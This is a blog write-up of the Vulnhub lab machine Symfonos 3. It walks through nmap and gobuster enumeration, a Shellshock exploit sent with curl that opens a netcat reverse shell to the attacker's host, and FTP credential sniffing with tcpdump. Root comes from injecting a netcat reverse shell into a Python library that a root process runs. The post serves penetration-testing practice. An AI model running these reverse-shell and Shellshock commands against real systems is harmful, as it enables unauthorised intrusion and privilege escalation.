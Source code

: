 ```yaml
---
layout:     post
title:      "Vulnhub - Symfonos 3"
subtitle:   "Write-Up"
date:       2019-08-04 
author:     "D4mianwayne"
tag:      nmap, ctf, vulnhub
category: Vulnhub
---
```


This is a walkthrough of Symfonos 3 which is 3rd machine in Symfonod series.

# Nmap

Let's scan the network and start working on the machine right away. Using `nmap -sV -sC -A -p- -T5 192.168.43.22` shows that we have FTP, SSH and HTTP.

![](/img/symfonos3/nmap.png)

# HTTP Enumeration

This was kind of time consuming since it involves lots of nested directory busting, I mostly use gobutser so with some bash scripting I automated the scan by updating the script with every finding. 
My strategy for that was to copy every dictionary/wordlists into a single directory and using the bash we used it to find the directories. I used **dirbuster** and **dirb** wordlists only.

```
#!/bin/sh
for i in $(pwd)/*.txt; do
    gobuster dir -u http://192.168.43.22 -w "$i" | grep Status: 
done
```

First, I found `gate`, then `cerberus` after that `tartarus`. After that I tried again with the script this time we got more than 4 hits:-

```
=============================================================== 
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.43.22/gate/cerberus/tartarus/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/08/04 01:28:56 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/charon (Status: 301)
/hermes (Status: 301)
/research (Status: 200)
===============================================================
```
 
But somehow `research` was a rabbit hole, perhaps a wild goose chase for us. Then, I tried again with `cgi-bin` from previous findings. Now directory busting to the `http://192.168.43.22/cgi-bin`, I found a hit at `underworld`. PS: In case you don't know about greek mythology, underworld is home of the god **Hades**.

```
#!/bin/sh
for i in $(pwd)/*.txt; do
    gobuster dir -u http://192.168.43.22/cgi-bin -w "$i" | grep Status: 
done
```

***
root@kali:/usr/share/wordlists/dirb# ./new.sh
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.hta (Status: 403)
/underworld (Status: 200)
*** 

![](/img/symfonos3/underworld.png)
There, we got the `underworld`, the real game begins from here.

# Reverse Shell and FTP Network Sniffing

From that page we can see that it's saying `uptime`, I tried to enumerate more but somehow none worked. I switched to some research on similar machines to get information about this thinking that it might have been some kind of task of a machine.
From that I found a machine from PentesterLab which has **kind of** vulnerability but after checking it I was confirmed that it was same. The vulnerability is named **ShellShock**. In this type of vulnerablity you have the pass the bash command as a User-Agent for that particular request. So, using the following command with the help of curl, we get a reverse shell on our host machine.

```
robin@oracle:~$ curl -A "() { :; }; /bin/bash -c 'nc 192.168.43.243 1337 -e /bin/sh'" http://192.168.43.22/cgi-bin/underworld
```

Once, we get reverse shell I found out we have privilge of cerberus, so from some basc enumeration I didn't found anything so I thought of using the `pspy` script which is useful for tracing the background proccesses. Using `pspy`  after using wget to grab it from server I found out there is a ftp server is running in the background. I thought of checking the directory too but permission denied. 
Now, I started grabbing the network dump using tcpdump since it ws available for usage, using `tcpdump -w ftplog.pcap -i lo`, the FTP server was runiing on the `lo` interface because the other one has our reverse shell connected to using shellshock. SInce, I first grabbed the `en0ps17` but I saw that our curl is making request to server. 

![](/img/symfonos3/pspy.png)

>Warning: Let the tcpdump run for 5-10 minutes so you can grab enough data to analyse.

I saved the file in `/tmp` folder and started a HTTP server using python `python -m SimpleHTTPServer 1234` and grabbed the `ftplog.pcap` right away from `http://192.168.43.22:1234`.

After opening it in wireshark and filtering out the packets for FTP only with `tcp.port == 21`, I got some packets with FTP service and following TCP Stream of that packet I found the user `hades` password.

![](/img/symfonos3/hades.png)

# Root 

Once you SSH into the system as user **hades** with the above password you'll find out that we have the same thing as user cerberus. So, the last option was to run the `pspy` again, doing that so I found that we have nothing more nothing less than previous scan. I started trying again in ftpclient, this time we can access the folder which has a python script which is running the server by the **root** itself. So, there is **more to see than meets the eye**. 

After analysing the script I found that script is using a module named `ftplib.py` in `/opt/ftpclient` which is running as root, as from my previous experience I thought that we need to edit the module file itself to get root privilges or anything to get moving. I checked permission and it turns out we can edit it since the user `hades` ia belong to group `gods`. 

![](/img/symfonos3/ftpclient.png)

Now, I added a line `os.system("nc 192.168.43.243 4444 -e /bin/bash)` in the file so that once the script will be run our reverse shell gets executed giving a root shell. So, once done I started my listener and start analysing the process again, once that script runs we have the shell as **root**.
Hence, the flag. 

![](/img/symfomos3/root.png)

Thanks to [@zayotic](https://twitter.com/zayotic) for making this wonderful machine.
